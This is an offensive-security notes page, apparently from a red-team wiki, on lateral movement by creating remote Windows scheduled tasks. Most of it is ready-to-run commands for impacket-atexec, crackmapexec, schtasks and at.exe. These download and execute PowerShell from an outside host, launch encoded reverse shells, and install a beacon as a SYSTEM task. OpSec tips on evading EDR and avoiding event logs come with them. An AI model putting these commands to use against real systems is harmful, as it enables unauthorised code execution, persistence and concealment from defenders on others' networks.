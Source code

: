 ```yaml
---
title: Lateral Movement with Scheduled Tasks
---
```


[[notes/lateral-movement/index]] by using the [MS-TSCH](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/) protocol to create or update scheduled tasks and execute commands in system context.

Create a scheduled task over a named pipe on SMB to execute a reverse shell.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local 'powershell.exe -ep bypass -c iex(irm 192.168.80.185/one.ps1)'
    impacket-atexec -k -no-pass -silentcommand srv01.corp.local "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:**
    The command is executed with `cmd.exe`, the output is written to a file and downloaded over SMB.
    This can be avoided by specifying `-nooutput`.

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb srv01.corp.local -u jdoe -p 'passw0rd' --no-output --exec-method atexec -x "powershell.exe -ep bypass -e $(iconv -t utf16le ./shell.ps1 | base64 -w0)"
    ~~~

    **OpSec:** Many EDRs detecte the use of `-X`.

=== "schtasks"
    ~~~ bat
    schtasks.exe /s srv01.corp.local /create /tn "Background Task 72" /tr "c:\windows\temp\beacon.exe" /ru "NT Authority\SYSTEM" /sc onstart
    schtasks.exe /s srv01.corp.local /run /tn "Background Task 72"
    schtasks.exe /s srv01.corp.local /delete /tn "Background Task 72" /f
    ~~~

=== "at"
    Start a reverse shell at 14:00.

    ~~~ bat
    at.exe \\srv01.corp.local 14:00 "powershell.exe -ep bypass -e %payload%"
    ~~~

    Cleanup.

    ~~~ bat
    at.exe \\srv01.corp.local
    at.exe \\srv01.corp.local %id% /delete /yes
    ~~~

> **OpSec:**
> To avoid detections modify the command of an existing task or overwrite the binary of an existing task.

Untested tools:

- [GhostTask](https://github.com/netero1010/GhostTask), create scheduled task trough direct registry interaction, no event generated
- [TaskShell](https://github.com/RiccardoAncarani/TaskShell), modifies the command of a scheduled task

References:

- [Scheduled task tampering](http://web.archive.org/web/20221111232306/https://labs.withsecure.com/publications/scheduled-task-tampering), as the machine account create a scheduled task without logging events by directly writing registry keys
